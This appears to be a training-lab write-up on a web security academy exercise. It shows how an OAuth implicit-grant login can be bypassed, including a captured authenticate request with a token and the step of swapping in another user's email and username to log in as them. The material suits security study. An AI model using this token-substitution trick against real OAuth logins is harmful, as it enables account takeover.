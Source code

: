With this lab we learn about inherent security implications of using implicit grant type for an application where tokens are passed to the client which subsequently uses that for login the uses

Flow of the lab is like this:

1. Click on login with social media
2. This will trigger a authorize request to the authorization server: https://acd41f2a1e7fa13f8095024a02e5002e.web-security-academy.net/auth?client_id=<client_id>&redirect_uri=<redirect_uri>&response_type=token&nonce=894724906&scope=openid%20profile%20email
3. After this we are taken to social media signin page. We would enter the creds as wiener/peter and click on sign-in.
4. Wiener logged in to the authorization server and get a Authorize page. requesting the access to profile and email. If you notice the url we are still interacting with authorization server
5. Click on Authorize. This triggers a multiple back and forth request where authorization server sends the token to the client and client uses that token to log the user in
6. Request to authenticate the user using the token(**this is where vulnerability is**). 
```
POST /authenticate HTTP/1.1
Host: ac4b1f611e36a1d2807c027700f90049.web-security-academy.net
Connection: close
Content-Length: 103
Accept: application/json
Content-Type: application/json
Origin: https://ac4b1f611e36a1d2807c027700f90049.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac4b1f611e36a1d2807c027700f90049.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=0hvjvGdwD7YRSgtQ7xXqODSewMnzZ9xF

{"email":"wiener@hotdog.com","username":"wiener","token":"XKONneZF-Ecm9-f4wfn-JnPZRIXzM0DZ1S6NhJpNvc0"}
```
7. Application *does not matches the access token angainst the username and email*. So changing the email to **carlos@carlos-montoya.net** and username to carlos. logs us in as carlos
